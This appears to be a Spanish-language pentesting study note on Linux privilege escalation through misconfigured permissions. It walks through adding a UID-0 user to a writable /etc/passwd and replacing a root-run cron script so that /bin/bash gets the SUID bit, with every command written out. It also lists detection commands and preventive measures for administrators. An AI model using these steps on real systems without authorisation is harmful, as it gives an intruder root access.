



# 🔓 Abuso de Permisos Incorrectamente Implementados

> [!info] Objetivo de aprendizaje
> Entender cómo identificar y explotar configuraciones incorrectas de permisos en archivos del sistema para escalar privilegios.

---

## 📚 Fundamentos teóricos

Los permisos en sistemas Unix/Linux constituyen la primera línea de defensa contra accesos no autorizados. Cuando estos permisos están mal configurados, se abren vectores de ataque para la escalada de privilegios.

> [!warning] Vectores comunes de permisos incorrectos
> - Archivos críticos del sistema con permisos de escritura
> - Scripts ejecutados por usuarios privilegiados (root) que son modificables
> - Directorios con permisos inadecuados que permiten manipular su contenido
> - Binarios con bits SUID/SGID incorrectamente establecidos



---

## 🔍 Caso práctico 1: Explotación de /etc/passwd escribible

### Entendiendo los archivos de autenticación

> [!note] /etc/passwd vs /etc/shadow
> - **`/etc/passwd`**: Almacena información de cuentas de usuario (nombre, UID, GID, shell, etc.)
> - **`/etc/shadow`**: Contiene las contraseñas hasheadas de los usuarios
> 
> Históricamente, las contraseñas se almacenaban en `/etc/passwd`, pero por seguridad se movieron a `/etc/shadow` con acceso restringido.

#### Comportamiento del sistema de autenticación:

Si existe un hash de contraseña en el campo correspondiente de `/etc/passwd`, el sistema lo usará para la autenticación **sin consultar** `/etc/shadow`.

### Detección de permisos incorrectos

Para encontrar archivos con permisos de escritura en el sistema:

```bash
# Buscar archivos escribibles en todo el sistema
find / -writable 2>/dev/null

# Filtrar solo archivos importantes del sistema
find / -writable 2>/dev/null | grep -E "^/(etc|bin|sbin|usr/bin|usr/sbin)"
```

> [!danger] Señal de alerta
> Si `/etc/passwd` aparece como escribible (`o+w`), ¡tienes un vector de escalada de privilegios!

### Explotación del vector

**Paso 1:** Generar un hash de contraseña con [[openssl]]

```bash
openssl passwd
# Ingresa la contraseña que desees (por ejemplo: "hacked")
# Output: $1$aBcDeFgH$XyZaBcDeFgHiJkLmNoPqRs
```

**Paso 2:** Editar `/etc/passwd` y agregar un usuario root

```bash
echo "evil:$1$aBcDeFgH$XyZaBcDeFgHiJkLmNoPqRs:0:0:root:/root:/bin/bash" >> /etc/passwd
```

**Paso 3:** Cambiar al nuevo usuario con privilegios de root

```bash
su evil
# Ingresa la contraseña que usaste (en nuestro ejemplo: "hacked")
whoami
# Output: root
```



---

## 🕒 Caso práctico 2: Abuso de tareas cron

### Escenario

Imaginemos una tarea cron que ejecuta un script como root:

```
* * * * * root /home/liskov/script.sh
```

Si el usuario `liskov` tiene control sobre su directorio home pero no directamente sobre el script, podemos explotar esta configuración.

> [!example] Análisis de permisos
> ```bash
> ls -la /home/liskov/script.sh
> # Output: -rwxr-xr-x 1 root root 123 Jun 5 12:34 /home/liskov/script.sh
> 
> ls -ld /home/liskov/
> # Output: drwxr-xr-x 2 liskov liskov 4096 Jun 5 12:34 /home/liskov/
> ```
> 
> El script pertenece a root, pero el directorio pertenece a liskov.

### Pasos para la explotación

**Paso 1:** Eliminar el script original (si tienes permisos en el directorio)

```bash
rm /home/liskov/script.sh
```

**Paso 2:** Crear un nuevo script malicioso con el mismo nombre

```bash
cat > /home/liskov/script.sh << EOF
#!/bin/bash
chmod u+s /bin/bash
EOF
```

**Paso 3:** Dar permisos de ejecución al script

```bash
chmod +x /home/liskov/script.sh
```

**Paso 4:** Esperar a que la tarea cron se ejecute (máximo 1 minuto en este caso)

**Paso 5:** Verificar que bash tenga el bit SUID

```bash
ls -la /bin/bash
# Output: -rwsr-xr-x 1 root root 1113504 Apr 18 09:12 /bin/bash
```

**Paso 6:** Ejecutar bash con el flag -p para mantener privilegios

```bash
/bin/bash -p
whoami
# Output: root
```

> [!tip] El flag -p
> El parámetro `-p` en bash significa "privileged" y hace que bash no elimine los privilegios efectivos aunque se invoque desde un usuario con menos privilegios.

### Diagrama de la explotación



---

## 📊 Tabla comparativa de vectores de escalada por permisos

| Vector | Detección | Explotación | Dificultad | Impacto |
|--------|-----------|-------------|------------|---------|
| `/etc/passwd` escribible | `find / -writable \| grep /etc/passwd` | Agregar usuario con UID 0 | Baja | Alto |
| Scripts cron modificables | `ls -la /path/script.sh` | Reemplazar script | Media | Alto |
| Binarios SUID | `find / -perm -4000 -type f` | Depende del binario | Varía | Alto |
| Archivos de configuración | `find /etc -writable` | Modificar configuración | Media | Medio-Alto |

---

## 🛡️ Medidas preventivas

> [!warning] Para administradores de sistemas
> - Auditar regularmente permisos de archivos críticos
> - No otorgar permisos de escritura innecesarios
> - Usar listas de control de acceso (ACL) para permisos más granulares
> - Verificar scripts ejecutados por tareas cron
> - Implementar el principio de mínimo privilegio

---

## 🔍 Herramientas complementarias

- [[find]] - Para búsqueda de archivos con permisos específicos
- [[openssl]] - Para generar hashes de contraseñas
- [[crontab]] - Para inspeccionar y entender tareas programadas
- [[linPEAS]] y [[lse]] - Herramientas de enumeración que detectan automáticamente estos vectores

---

> [!success] Puntos clave
> - Los permisos incorrectos son uno de los vectores más comunes de escalada de privilegios
> - Siempre verifica permisos de archivos críticos en evaluaciones de seguridad
> - La combinación de permisos de directorio y archivo puede crear vulnerabilidades complejas
> - La automatización (cron jobs) ejecutando scripts con permisos débiles es un vector frecuente